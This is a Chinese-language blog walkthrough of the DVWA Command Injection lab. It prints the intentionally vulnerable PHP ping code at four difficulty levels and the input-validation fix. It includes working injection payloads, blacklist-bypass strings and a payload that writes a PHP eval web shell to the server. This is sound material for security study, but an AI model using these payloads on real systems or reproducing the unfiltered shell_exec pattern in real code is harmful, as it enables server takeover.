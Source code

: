 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      VWA之Command InjectionD   # 标题 
subtitle:    DVWA  #副标题
date:       2020-08-02       # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - DVWA
  
--- 
```


## low

```
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
         echo $target;
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?> 
```

* `$_REQUEST` — HTTP Request 变量，默认情况下包含了 $_GET，$_POST 和 $_COOKIE 的数组。 
* `php_uname` — 返回运行 PHP 的系统的有关信息

```
    'a'：此为默认。包含序列 "s n r v m" 里的所有模式。
    's'：操作系统名称。例如： FreeBSD。
    'n'：主机名。例如： localhost.example.com。
    'r'：版本名称，例如： 5.1.2-RELEASE。
    'v'：版本信息。操作系统之间有很大的不同。
    'm'：机器类型。例如：i386。
```

* `stristr()` 函数搜索字符串在另一字符串中的第一次出现

	 stristr ( string $haystack , mixed $needle [, bool $before_needle = FALSE ] ) : string

	返回 haystack 字符串从 needle 第一次出现的位置开始到结尾的字符串。 

* `shell_exec(cmd)`：在外部执行一个命令，参数cmd即为要执行的命令

了解完这三个函数，我们就能大概了解这关是执行一个在浏览器上的ping命令程序，服务器会对操作系统的名称进行检测，如果不是Windows NT系统则执行linux系统的Ping命令。但是，由于服务器未对ip参数进行任何的过滤，因此存在严重的Command Injection(命令注入)漏洞.

```
命令1 && 命令2 ：先执行命令1，若命令1执行成功再执行命令2，若命令1执行不成功则不执行命令2

命令1 & 命令2 ：先执行命令1，不管命令1执行成不成功都继续执行命令2

命令1 | 命令2 ：只执行命令2，前提是命令1必须执行成功

以上三种连接符在windows和linux环境下都支持.

||支支持windows

命令1 || 命令2 ：先执行命令1，若命令1执行成功则不执行命令2，若命令1执行不成功则执行命令2
```

输入`127.0.0.1 && ipconfig`,成功回显：

![aYE1Rs.png](https://s1.ax1x.com/2020/08/02/aYE1Rs.png)

写个下马进来，`127.0.0.1 && echo "<?php eval($_POST[a]);?>">shell.php`

成功

![aYERoD.png](https://s1.ax1x.com/2020/08/02/aYERoD.png)

## Medium

```
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?> 
```

他这里设置了黑名单`&&`和`;`，替换为空。

我们可以双写绕过`127.0.0.1 &;& ipconfig`.

当然还可以使用`&`、`||`、`|`.

## High

```
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?> 
```

这里也是采用黑名单过滤的方式，只不过过滤的多了一点。

这关过滤的字符较为完全，其中过滤了字符’&’，也就是说连接符&&和&都不能使用了，还过滤了字符’|’和’||’，但仔细看是过滤了’| ‘而不是’|’，(|后面还有一个空格)，也就是说连接符|还可以使用。

`127.0.0.1|ipconfig`

当然还可以`127.0.0.1 |;| ipconfig`

## Impossible

```
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $target = $_REQUEST[ 'ip' ];
    $target = stripslashes( $target );

    // Split the IP into 4 octects
    $octet = explode( ".", $target );

    // Check IF each octet is an integer
    if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
        // If all 4 octets are int's put the IP back together.
        $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

        // Determine OS and execute the ping command.
        if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
            // Windows
            $cmd = shell_exec( 'ping  ' . $target );
        }
        else {
            // *nix
            $cmd = shell_exec( 'ping  -c 4 ' . $target );
        }

        // Feedback for the end user
        echo "<pre>{$cmd}</pre>";
    }
    else {
        // Ops. Let the user name theres a mistake
        echo '<pre>ERROR: You have entered an invalid IP.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

* stripslashes() 函数删除由 addslashes() 函数添加的反斜杠。
* explode() 函数把字符串打散为数组。
* is_numeric(string)：检测string是否为数字或数字字符串，是则返回true，不是则返回false

这里首先采用了token令牌机制，用户每次提交表单时都附带提交一个token值，服务器将提交的token值与session或cookie中存储的token值进行比较，相同则通过请求，不同则过滤请求

然后将输入的ip值以字符’.’为分隔符打散成一个数组，并检测数组中的每个元素是否为数字并且数组元素个数是否为4，这就限制了我们输入的值必须是一个正确格式的ip地址

也就是说只有“数字.数字.数字.数字”的输入才会被执行，非常完美的防止了命令注入漏洞